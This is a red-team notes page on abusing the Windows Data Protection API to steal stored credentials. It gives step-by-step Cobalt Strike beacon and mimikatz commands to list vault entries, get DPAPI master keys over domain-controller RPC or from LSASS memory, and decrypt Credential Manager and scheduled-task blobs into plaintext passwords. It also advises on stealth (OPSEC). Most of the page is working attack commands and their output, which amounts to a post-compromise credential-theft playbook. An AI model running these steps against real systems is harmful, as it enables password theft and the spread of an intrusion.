 ```yaml
---
title: Data Protection API (DPAPI)
category: 00 - Red Team
order: 12
---
```


The Data Protection API (DPAPI) is a component built into Windows that provides a means for encrypting data blobs. It uses cryptographic kyes and allows both native Windows functionality and third-party applications to protect/unprotect data transparently to the user.

DPAPI is used by the Windows Credential Manager to sotre saved secrets such as RDP credential, and by third-party applications like Google Chrome.


# Credential Manager

The credential manager blobs are stored in user's `AppData` directory.

With `vaultcmd` tool we can list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: CORP\user
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

Or with mimikatz.

```
beacon> mimikatz vault::list
```

The masterkey with which the blobs have been encrypted are stored encryppted in the following path.

```
beacon> ls C:\Users\user\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```

> **Note**: Each user including system has their independent blob. Remember to list vaults with all the contexts.

## Decrypt the credentials

To decrypt the credentials we need to find the master encryption key.

Run mimikatz `dpapi` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it. The masterkey information is stored in the following directory specifying the user SID.

```
beacon> ls C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1122

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-CORP
 24b      fil     02/21/2021 11:49:40   Preferred
```

It is possible to dump the masterkey from memory with `sekurlsa::dpapi` on a high integrity session, but this interacts with LSASS which is not ideal for OPSEC.

There are more silent ways such us using the RPC service exposed on the DC.

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'corp.local' will be the domain
[DC] 'dc.corp.local' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```
Once the `key` is obtained we can decyrpt the credential with `dpapi::cred`.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```

# Scheduled Task Credentials

Scheduled task can save credentials so they can run under the context of a user without them having to be logged on. If we have compromised a machine as a local admin, we can decrypt them in the same way as the credential manager.

The blobs are saved under `C:\Windows\Sytem32\config\systemprofile\AppData\Local\Microsoft\Credentials`.

```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/28/2022 02:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 527b     fil     08/17/2022 04:55:28   F3190EBE0498B77B4A85ECBABCA19B6E
```

With `dpapi::cred` can tell us the GUID of the master key used to encrypt each one.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```

`sekurlsa::dpapi` to dump cached keys:

```
beacon> mimikatz !sekurlsa::dpapi

	 [00000000]
	 * GUID      :	{aaa23e6b-bba8-441d-923c-ec242d6690c3}
	 * Time      :	9/6/2022 12:14:38 PM
	 * MasterKey :	10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
	 * sha1(key) :	cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

And finally decrypt it.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```